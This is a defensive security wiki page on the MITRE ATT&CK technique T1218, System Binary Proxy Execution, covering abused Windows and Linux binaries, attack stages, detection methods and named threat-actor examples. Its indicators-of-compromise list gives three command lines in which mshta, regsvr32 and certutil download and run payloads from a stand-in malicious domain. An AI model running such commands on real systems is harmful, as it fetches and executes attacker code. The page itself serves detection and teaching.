 ```yaml
---
description: System Binary Proxy Execution [T1218]
icon: play
---
```


# System Binary Proxy Execution

## Information

* Name: System Binary Proxy Execution
* ID: T1218
* Tactics: [TA0005](../)
* Sub-Technique: [T1218.011](t1218.011.md), [T1218.013](t1218.013.md), [T1218.004](t1218.004.md), [T1218.007](t1218.007.md), [T1218.003](t1218.003.md), [T1218.002](t1218.002.md), T1218.015, [T1218.008](t1218.008.md), [T1218.012](t1218.012.md), [T1218.005](t1218.005.md), [T1218.001](t1218.001.md), [T1218.010](t1218.010.md), [T1218.009](t1218.009.md), [T1218.014](t1218.014.md)

## Introduction

System Binary Proxy Execution is a technique categorized under the MITRE ATT\&CK framework (Technique ID: T1218). Attackers utilize legitimate, pre-installed system binaries to execute malicious payloads or scripts, effectively bypassing security controls. These trusted binaries are typically signed and approved by the operating system, making them less suspicious to security tools and analysts. This method is particularly effective in evading detection and maintaining persistence within compromised environments.

## Deep Dive Into Technique

System Binary Proxy Execution leverages legitimate system utilities and binaries to execute malicious code, scripts, or payloads. Attackers exploit the inherent trust placed in these binaries, bypassing application whitelisting, antivirus solutions, and other security controls. Commonly abused binaries include, but are not limited to:

* **Windows:**
  * `mshta.exe`: Executes HTML Applications (.hta files), often used to execute malicious scripts.
  * `rundll32.exe`: Executes DLL files, allowing attackers to run malicious DLL payloads directly.
  * `regsvr32.exe`: Registers and executes DLL files; attackers frequently abuse it to execute malicious scripts hosted remotely.
  * `certutil.exe`: Downloads and decodes files from remote locations, useful for payload delivery.
  * `wmic.exe`: Executes commands remotely or locally, commonly used for lateral movement and execution.
  * `msiexec.exe`: Executes MSI installer packages, often used to deploy malicious payloads.
  * `InstallUtil.exe`: Executes .NET assemblies, providing attackers a stealthy method to execute malicious code.
* **Linux/Unix:**
  * `bash`: Executes shell scripts and commands, commonly leveraged in Linux environments.
  * `curl` and `wget`: Download payloads directly from remote servers, facilitating payload delivery and execution.
  * `python`, `perl`: Execute scripts directly, enabling attackers to run malicious code without additional binaries.

Attackers generally follow a structured approach:

1. **Reconnaissance**: Identify available system binaries and their potential for misuse.
2. **Payload Preparation**: Craft payloads or scripts compatible with the targeted binary.
3. **Delivery**: Deploy payloads through phishing, exploitation, or lateral movement.
4. **Execution**: Invoke system binaries to execute payloads, bypassing security mechanisms.
5. **Persistence and Evasion**: Utilize legitimate binaries to maintain presence and evade detection.

## When this Technique is Usually Used

System Binary Proxy Execution is commonly employed during various stages of cyber-attacks, including:

* **Initial Access**: Attackers execute malicious payloads delivered via phishing emails or web-based attacks using legitimate binaries.
* **Execution**: Malicious scripts or payloads are executed through trusted system binaries to bypass security controls.
* **Defense Evasion**: Attackers leverage trusted binaries to evade whitelisting and antivirus solutions, increasing stealth.
* **Persistence**: Legitimate binaries are used to persistently execute malicious payloads upon system reboot or user login.
* **Privilege Escalation**: Attackers may exploit binaries with elevated privileges to escalate their own privileges.
* **Lateral Movement**: Trusted system utilities, such as `wmic.exe` and `psexec.exe`, are used to execute commands remotely across networked systems.
* **Command and Control (C2)**: Attackers use legitimate binaries to establish covert communication channels with remote servers.

## How this Technique is Usually Detected

Detection of System Binary Proxy Execution requires monitoring and correlation of multiple indicators and behaviors, including:

* **Process Monitoring and Logging**:
  * Monitor command-line arguments and process creations involving commonly abused binaries (`mshta.exe`, `rundll32.exe`, `regsvr32.exe`, `certutil.exe`, etc.).
  * Identify unusual parent-child process relationships, particularly involving scripting engines or binaries executing from unusual locations.
* **Endpoint Detection and Response (EDR)**:
  * Utilize EDR solutions that provide visibility into process execution, file operations, and command-line activities.
  * Create behavioral rules and alerts for suspicious usage patterns of system binaries.
* **Application Whitelisting & Execution Control**:
  * Implement strict application control policies, restricting execution of scripts and binaries from unauthorized locations.
  * Regularly audit whitelisting rules and exceptions to identify potential abuse.
* **Network Traffic Analysis**:
  * Monitor network communications initiated by system binaries, especially those connecting to unknown or suspicious IP addresses and domains.
  * Detect unusual outbound HTTP/HTTPS connections initiated by binaries like `certutil.exe` or `mshta.exe`.
* **Indicators of Compromise (IoCs)**:
  * Suspicious command-line arguments, such as:
    * `mshta.exe http://malicious-domain.com/payload.hta`
    * `regsvr32.exe /s /n /u /i:http://malicious-domain.com/script.sct scrobj.dll`
    * `certutil.exe -urlcache -split -f http://malicious-domain.com/payload.exe payload.exe`
  * Unusual file downloads or decodings via system utilities.
  * Execution of binaries from temporary folders or unusual directories.

## Why it is Important to Detect This Technique

Early detection of System Binary Proxy Execution is critical due to several factors:

* **Stealth and Evasion**:
  * Attackers exploit trusted binaries to bypass security controls, making detection challenging and increasing the risk of prolonged compromise.
  * Failure to detect this technique allows attackers to maintain persistence, escalate privileges, and move laterally undetected.
* **Potential Damage and Impact**:
  * Undetected execution can lead to data exfiltration, ransomware deployment, espionage, or sabotage.
  * Attackers gain the ability to execute arbitrary commands and payloads, significantly increasing risks to organizational security and operational continuity.
* **Compliance and Regulatory Requirements**:
  * Organizations must detect and respond promptly to such threats to maintain compliance with industry standards and regulatory frameworks (e.g., GDPR, HIPAA, PCI DSS).
  * Failure to detect and remediate promptly can result in significant financial and reputational damages.
* **Incident Response and Containment**:
  * Early detection enables quicker incident response and containment, significantly reducing potential damage and recovery costs.
  * Understanding and detecting this technique enhances the organization's overall security posture and resilience against future threats.

## Examples

Real-world examples of System Binary Proxy Execution include:

* **APT32 (OceanLotus)**:
  * **Scenario**: Utilized `regsvr32.exe` to execute malicious scripts hosted remotely.
  * **Tools Used**: Remote SCT scripts, `regsvr32.exe`.
  * **Impact**: Espionage, data exfiltration, persistent access within targeted organizations.
* **FIN7**:
  * **Scenario**: Leveraged `mshta.exe` to execute malicious HTA payloads delivered via spear-phishing emails.
  * **Tools Used**: Malicious HTA files, `mshta.exe`.
  * **Impact**: Financial fraud, data breaches, significant financial losses for targeted organizations.
* **Emotet Malware**:
  * **Scenario**: Used `certutil.exe` to download and decode payloads from remote servers, bypassing traditional antivirus detection.
  * **Tools Used**: `certutil.exe`, encoded payloads.
  * **Impact**: Deployment of secondary malware (e.g., TrickBot, Ryuk ransomware), widespread financial and operational damage.
* **Cobalt Strike Framework**:
  * **Scenario**: Frequently utilized `rundll32.exe` and `regsvr32.exe` to execute beacon payloads and maintain persistence.
  * **Tools Used**: Cobalt Strike payloads, `rundll32.exe`, `regsvr32.exe`.
  * **Impact**: Persistent command-and-control channels, lateral movement, data exfiltration, privilege escalation.
* **Lazarus Group**:
  * **Scenario**: Abused `InstallUtil.exe` to execute malicious .NET payloads, bypassing security controls.
  * **Tools Used**: Malicious .NET assemblies, `InstallUtil.exe`.
  * **Impact**: Espionage, financial theft, sabotage, and prolonged undetected presence within victim networks.

